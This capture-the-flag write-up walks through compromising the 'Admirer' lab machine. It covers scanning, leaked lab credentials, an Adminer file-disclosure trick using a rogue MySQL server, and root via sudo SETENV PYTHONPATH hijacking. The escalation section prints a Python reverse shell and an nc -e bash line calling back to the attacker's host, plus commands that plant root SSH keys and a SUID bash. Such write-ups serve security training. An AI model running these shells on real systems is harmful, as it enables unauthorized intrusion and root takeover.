# Admirer

## Machine Info


## Recon

### nmap

```console
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Admirer
| http-robots.txt: 1 disallowed entry
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (96%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 3.12 (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 3.8 - 3.11 (94%), Linux 4.4 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### path

- `/robots.txt` -> `/admin-dir`
- `/admin-dir` -> `contacts.txt`, `credentials.txt`

```console
$ gobuster dir -u http://10.10.10.187/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.187/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 6051]
/assets               (Status: 301) [Size: 313] [--> http://10.10.10.187/assets/]
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.187/images/]
/robots.txt           (Status: 200) [Size: 138]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

```console
$ curl http://10.10.10.187/robots.txt
User-agent: *

# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
Disallow: /admin-dir
```

```console
$ gobuster dir -u http://10.10.10.187/admin-dir/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.187/admin-dir/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,js,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/contacts.txt         (Status: 200) [Size: 350]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/credentials.txt      (Status: 200) [Size: 136]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

### FTP

- ftp credential leakage

```console
$ curl http://10.10.10.187/admin-dir/contacts.txt
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb

$ curl http://10.10.10.187/admin-dir/credentials.txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

- ftp login to download files
  - `dump.sql`
  - `html.tar.gz`

```console
$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:qwe): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||61166|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp> binary
200 Switching to Binary mode.
ftp> mget *
```

```console
$ cat dump.sql
-- MySQL dump 10.16  Distrib 10.1.41-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: admirerdb
-- ------------------------------------------------------
-- Server version       10.1.41-MariaDB-0+deb9u1

$ ls
admin_tasks.php  db_admin.php  info.php  phptest.php

$ cat index.html
...
<?php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";

// Create connection
$conn = new mysqli($servername, $username, $password, $dbname);
// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
...

$ cat db_admin.php
<?php
  $servername = "localhost";
  $username = "waldo";
  $password = "Wh3r3_1s_w4ld0?";

  // Create connection
  $conn = new mysqli($servername, $username, $password);
```

- **web paths**:
  - `/utility-scripts/admin_tasks.php`
  - `/utility-scripts/db_admin.php`
  - `/utility-scripts/info.php`
  - `/utility-scripts/phptest.php`
- **mysql version**: MySQL dump 10.16, 10.1.41-MariaDB
- **db credentials leakage**:
  - `admirerdb : waldo : ]F7jLHw:*G>UPrTo}~A"d6b`
  - `waldo : Wh3r3_1s_w4ld0?`



- `admin_tasks.php`: unable to inject

```console
/***********************************************************************************
 Available options:
   1) View system uptime
   2) View logged in users
   3) View crontab (current user only)
   4) Backup passwd file (not working)
   5) Backup shadow file (not working)
   6) Backup web data (not working)
   7) Backup database (not working)

   NOTE: Options 4-7 are currently NOT working because they need root privileges.
         I'm leaving them in the valid tasks in case I figure out a way
         to securely run code as root from a PHP page.
************************************************************************************/
```



- `db_admin.php`: missing [?] -> filename guessing: db, admin, adminer, admirer, mysql, mariadb -> scanning
  - `/utility-scripts/adminer.php`

```console
$ dirsearch -u http://10.10.10.187/utility-scripts/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/qwe/pwk/linux/Admirer/reports/http_10.10.10.187/_utility-scripts__24-01-20_15-16-36.txt

Target: http://10.10.10.187/

[15:16:36] Starting: utility-scripts/
[15:16:47] 200 -    2KB - /utility-scripts/adminer.php
[15:16:59] 200 -   22KB - /utility-scripts/info.php
[15:17:07] 200 -   32B  - /utility-scripts/phptest.php
```



## Foothold

### Adminer 4.6.2: LFI

- LFI, leakage of index.php with db cred:
  - [PHP tool 'Adminer' leaks passwords (sansec.io)](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability)
  - [Adminer Script Results to Pwning Server?, Private Bug Bounty Program | by Yasho | InfoSec Write-ups (infosecwriteups.com)](https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)

#### MariaDB Config

- Reset mariadb password: [How To Reset Your MySQL or MariaDB Root Password | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-reset-your-mysql-or-mariadb-root-password)
- Start local mysql (mariadb) service
- Login mysql as root, create database & table & field, create db user and set user's with all privileges

```console
$ sudo service mariadb start
Starting MariaDB database server: ...

$ mysql -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7
Server version: 10.11.5-MariaDB-3 Debian n/a

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> CREATE DATABASE adminer; USE adminer; CREATE TABLE qwe (name VARCHAR(2048));
Query OK, 1 row affected (0.001 sec)

Database changed
Query OK, 0 rows affected (0.009 sec)

MariaDB [adminer]> CREATE USER 'adminer'@'10.10.10.187' IDENTIFIED BY 'qwe';
Query OK, 0 rows affected (0.003 sec)

MariaDB [adminer]> GRANT ALL PRIVILEGES ON adminer.* TO 'adminer'@'10.10.10.187';
Query OK, 0 rows affected (0.003 sec)
```

- `/etc/mysql/mariadb.conf.d/50-server.cnf` -> change bind ip addr to local ip 10.10.14.54 (this operation should be done when the db service is shutdown, or reboot service after it has been done)



```console
$ sudo service mariadb start
Starting MariaDB database server: mariadbd already running.

$ netstat -tuln | grep 3306
tcp        0      0 10.10.14.54:3306        0.0.0.0:*               LISTEN
```

#### Exploit

- login Adminer with local host's db



- failed to read `/etc/passwd` -> because of `open_basedir`





- **open_basedir**: `/var/www/html`
- **current_dir**: /var/www/html/utility_scripts/Adminer -> read `/var/www/html/index.html` which has db cred





- `/db_admin.php` is really missing



- **Credential** -> db, ssh

```console
u: waldo
db: admirerdb
pass: &<h5b~yK3F#{PaPB&dA}{H>
```

```console
$ ssh waldo@10.10.10.187
waldo@10.10.10.187's password:
Linux admirer 4.9.0-19-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Thu Aug 24 16:09:42 2023 from 10.10.14.23
waldo@admirer:~$ id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
```

## Privilege Escalation

- enum sudo

```console
waldo@admirer:/var/www$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

- `SETENV` usage
  - `sudo -E /opt/scripts/admin_tasks.sh`
  - `sudo VAR=VALUE /opt/scripts/admin_tasks.sh`

- enum executable scripts with sudo

```console
waldo@admirer:/opt/scripts$ ls -al
total 16
drwxr-xr-x 2 root admins 4096 Dec  2  2019 .
drwxr-xr-x 3 root root   4096 Nov 30  2019 ..
-rwxr-xr-x 1 root admins 2613 Dec  2  2019 admin_tasks.sh
-rwxr----- 1 root admins  198 Dec  2  2019 backup.py
```



```console
waldo@admirer:~$ cat /opt/scripts/backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

```sh
waldo@admirer:/opt/scripts$ cat admin_tasks.sh
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

- `backup_web()` executes `/opt/scripts/backup.py` with `from shutil import make_archive`
- since `SETENV` allows to change environment variable -> change `PYTHONPATH` -> let python script to find my own created fake shutil package first -> inside shutil package, create a make_archive function with intended code
  - trigger a reverse shell (python code, execute bash command)
  - create /root/.ssh/authorized_keys and add local ssh pub key into it
  - cp a bash with root:root & suid

```console
waldo@admirer:/dev/shm$ cat shutil.py
#!/usr/bin/python3

def make_archive(dst, s, src):
        import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

```console
$ # other methods
[1] -> os.system('nc 10.10.14.54 1234 -e bash')
[2] -> os.system("mkdir -p /root/.ssh; echo 'ssh pub key' >> /root/.ssh/authorized_keys")
[3] -> os.system('cp /bin/bash /dev/shm/mybash; chown root:root /dev/shm/mybash; chmod 4755 /dev/shm/mybash')
```

- exeucte sudo command and input 6 to trigger exploit code
  - **sudo -E does not pass PYTHONPATH**

```console
sudo -E /opt/scripts/admin_tasks.sh -> [x]
sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh -> [ok]
```

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.187] 60846
# id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
Linux admirer 4.9.0-19-amd64 #1 SMP Debian 4.9.320-2 (2022-06-30) x86_64 GNU/Linux
```

## Exploit Chain

port scan -> web path scan -> ftp cred leakage -> web path leakage, db cred leakage(wrong) -> phpinfo page -> path scan -> Adminer login page -> LFI: db cred page -> db, ssh cred -> waldo shell -> sudo enum -> SETENV script -> trigger a python file -> change PYTHONPATH to overlap used python package -> execute intended python code (rshell) -> root shell
